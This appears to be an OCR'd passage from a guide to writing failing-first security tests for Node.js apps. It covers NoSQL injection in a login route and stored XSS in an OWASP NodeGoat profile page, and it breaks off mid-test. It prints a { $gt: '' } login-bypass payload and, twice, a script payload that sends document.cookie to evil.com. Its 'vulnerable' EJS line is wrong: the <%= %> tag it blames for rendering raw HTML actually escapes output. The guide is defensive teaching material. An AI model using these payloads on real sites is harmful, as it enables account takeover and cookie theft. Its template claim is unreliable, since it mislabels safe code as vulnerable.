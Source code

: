 **RED Test (Vitest):**
```javascript
it('should reject NoSQL injection in login (CWE-943)', async () => {
  const response = await request(app)
    .post('/login')
    .send({
      username: 'testuser',
      password: { $gt: '' }  // Malicious payload
    });

  // Will FAIL on vulnerable code (allows login without password)
  expect(response.status).toBe(400);
  expect(response.body.error).toMatch(/invalid.*credentials/i);
});
```

**Why This Test is RED:**
- Vulnerable code accepts `{"$gt": ""}` as password
- MongoDB query becomes: `{username: "admin", password: {$gt: ""}}`
- This matches ANY user where password is greater than empty string
- Test expects 400/error but gets 200/success → **TEST FAILS**

**After Fix:**
```javascript
// Sanitize input before MongoDB query
const sanitizedInput = {
  username: String(req.body.username),
  password: String(req.body.password)  // ✅ Convert to string
};
```

Now test PASSES: Input `{"$gt": ""}` becomes string `"[object Object]"`, doesn't match.

---

### 2. Stored XSS (CWE-79)

**Source:** OWASP NodeGoat
**Vulnerability:** Unescaped user input in profile bio

**Vulnerable Code:**
```javascript
// app/views/profile.ejs:15
<p>Bio: <%= user.bio %></p>  // ❌ Renders raw HTML
```

**Attack Vector:**
```javascript
// Attacker sets bio to:
'<script>document.location="http://evil.com/steal?cookie="+document.cookie</script>'

// When victim views profile, script executes and steals cookies
```

**RED Test (Mocha):**
```javascript
it('should escape XSS in profile bio (CWE-79)', async function() {
  // Create attacker with malicious bio
  const xssPayload = '<script>document.location="http://evil.com/steal?cookie="+document.cookie</script>';
  const attacker = await User.create({
    username: 'attacker',
    bio: xssPayload
  });

  const response = await request(app)
    .get(`/profile/${attacker._id}`);

```